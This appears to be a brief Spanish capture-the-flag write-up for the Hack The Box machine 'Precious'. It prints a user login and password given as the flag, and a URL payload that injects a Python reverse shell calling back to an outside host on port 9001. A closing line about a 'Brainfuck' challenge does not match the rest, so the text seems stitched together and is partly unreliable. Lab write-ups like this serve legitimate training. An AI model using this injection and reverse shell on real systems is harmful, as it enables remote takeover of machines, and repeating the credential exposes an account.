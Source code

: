 # Hack The Box
    
  

  ![](portada.png)
  
## Máquina Precious

  



### Solución
    
    ``USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH"``
    
    
    ``REVERSE SHELL: http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
   
  La descripción del reto nos habla de "Brainfuck", así que lo llevamos a un decoder online.


![](2023-02-25_122928.png)



**Autor:** [AlbertoMiñan](https://github.com/albertominan)
